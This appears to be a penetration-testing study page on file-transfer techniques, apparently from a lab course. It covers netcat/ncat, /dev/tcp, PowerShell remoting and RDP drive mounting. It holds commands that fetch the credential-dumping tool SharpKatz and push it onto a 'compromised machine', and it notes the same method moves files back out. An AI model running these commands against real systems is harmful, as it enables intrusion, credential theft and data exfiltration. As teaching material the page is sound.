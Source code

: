 ## delete


# Miscellaneous File Transfer Methods
## File Transfer with Netcat and Ncat
**NetCat - Target Machine - Listening on Port 8000**
```bash
$ nc -l -p 8000 > SharpKatz.exe
```

**Ncat - Target Machine - Listening on Port 8000**
```bash
$ # Example using Ncat
$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```

**Netcat - Attack Host - Sending File to Compromised machine**
```bash
$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe

$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

**Ncat - Attack Host - Sending File to Compromised machine**
```bash
$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe

$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

**Attack Host - Sending File as Input to Netcat**
```bash
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

**Compromised Machine Connect to Netcat to Receive the File**
```bash
$ nc 192.168.49.128 443 > SharpKatz.exe
```

**Attack Host - Sending File as Input to Ncat**
```bash
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

**Target Machine Connect to Ncat to Receive the File**
```bash
$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

**NetCat - Sending File as Input to Netcat**
```bash
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

**Ncat - Sending File as Input to Netcat**
```bash
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

**Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File**
```bash
$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

`Note: The same operation can be used to transfer files from the compromised host to our Pwnbox.`

## PowerShell Session File Transfer
**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01**
```bash
> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

**Create a PowerShell Remoting Session to DATABASE01**
```bash
> $Session = New-PSSession -ComputerName DATABASE01
```

**Copy samplefile.txt from our Localhost to the DATABASE01 Session**
```bash
> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

**Copy DATABASE.txt from DATABASE01 Session to our Localhost**
```bash
> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP
**Mounting a Linux Folder Using rdesktop**
```bash
$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

**Mounting a Linux Folder Using xfreerdp**
```bash
$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

To access the directory, we can connect to \\tsclient\, allowing us to transfer files to and from the RDP session.


Alternatively, from Windows, the native mstsc.exe remote desktop client can be used.

After selecting the drive, we can interact with it in the remote session that follows.

`Note: This drive is not accessible to any other users logged on to the target computer, even if they manage to hijack the RDP session.
